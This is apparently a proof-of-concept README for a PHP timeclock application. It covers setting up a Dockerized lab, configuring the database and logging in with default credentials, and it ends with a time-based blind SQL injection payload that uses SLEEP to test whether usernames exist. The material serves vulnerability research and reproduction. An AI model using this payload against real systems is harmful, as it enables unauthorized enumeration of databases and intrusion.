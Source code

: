 **Create a Dockerfile**  

In the /timeclock folder, create a file called Dockerfile. In it, put the following information.  

```python
FROM php:7.2.1-apache
RUN docker-php-ext-install pdo pdo_mysql mysqli
```
**Add DB Information**

In the /timeclock folder, edit the db.php file to reference your database. Change the following lines to reference the dockerized db. 

```php
/** the name of the database */
$db_name = "timeclock";

/** mysql database username */
$db_user = "devuser";

/** mysql database password */
$db_password = "devpass";

/** mysql hostname */
$db_host = "db";
```

**Start Application**

```bash
docker-compose up -d
```

**Log into phpmyadmin** 

In your browser, go to 127.0.0.1:8080. The log in credentials for phpmyadmin are devuser;devpass. On the left hand-side, select the timeclock database.  

**Import the timeclock database** 

At the top of the timeclock db page, select "import". On the pop-up file explorer, select the timeclock.sql file downloaded from the vendor. Once selected, select "go" at the bottom. 

![](img/phpmyadmin.png)

**Log into Timeclock Application**

The timeclock app has now been dockerized from source. To log in, go to 127.0.0.1:80 in your browser. The default credentials are Admin:admin and Fred:fred. 


# Exploit Details  

The PoC works by exploiting the time-based sqli to query the database in true/false queries. The following payload is used to ask if a certain user exists. 


```sql 
' OR IF((SELECT username FROM user_info WHERE username='{user}')='{user}', SLEEP(5), NULL)='
```    
